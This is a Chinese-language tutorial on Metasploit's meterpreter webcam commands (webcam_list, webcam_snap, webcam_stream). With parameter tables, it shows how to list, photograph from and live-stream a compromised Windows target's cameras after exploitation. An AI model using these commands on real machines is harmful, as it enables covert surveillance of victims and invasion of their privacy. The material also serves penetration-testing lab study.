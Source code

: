 # 一、环境准备

1 MSF-Metasploit Framework

2 一台windiows靶机

3 一台**安卓**设备，没有可以使用模拟器

# 二、实战

靶机获取到meterpreter后我们可以使用  webcam模块实现调用软，硬件摄像头

webcam模块支持命令

| id   | 模块名            | 解释                                                   |
| ---- | ----------------- | ------------------------------------------------------ |
| 1    | **webcam_list**   | **列出**靶机中的所有软，硬件摄像头列表，并编号         |
| 2    | **webcam_snap**   | 可调用单个软，硬件摄像头**拍照**，默认调用第一个摄像头 |
| 3    | **webcam_stream** | 可调用单个软，硬件摄像头**直播**，默认调用第一个摄像头 |

1  webcam_list

![1644494100592](https://img.gyxnb.top/img/1644494100592.png)

2 `webcam_snap`  调用单个软，硬件摄像头拍照

| id   | 参数 | 描述                                                         |
| ---- | ---- | ------------------------------------------------------------ |
| 1    | `-h` | 显示帮助                                                     |
| 2    | `-i` | -i 1 “1”代表调用摄像头编号                                   |
| 3    | `-p` | -p  /root "root"设置存储路径                                 |
| 4    | `-q` | -q  100  "100" 表示存储图片的质量默认为 50                   |
| 5    | `-v` | -v  false   -v 2个参数  true 和  false   这个参数表示拍照后自动打开,默认参数为true |

![1644494089950](https://img.gyxnb.top/img/1644494089950.png)

3 `webcam_stream`  调用单个软，硬件摄像头直播

| id   | 参数 | 描述                                                         |
| ---- | ---- | ------------------------------------------------------------ |
| 1    | `-h` | 显示帮助                                                     |
| 2    | `-d` | -d 100  "100"=100秒   设置流持续时间为100秒   默认为1800     |
| 3    | `-i` | -i 1 “1”代表调用摄像头编号                                   |
| 4    | `-q` | -q 100  “100”指流质量 默认为50                               |
| 5    | `-s` | -s live “live”指流文件路径  默认输出在当前目录（注意目录不存在不会自动创建） |
| 7    | `-f` | -f live  “live”指播放文件的存储地址  默认输出在当前目录      |
| 8    | `-v` | -v  false   -v 2个参数  true 和  false   这个参数表示拍照后自动打开,默认参数为true |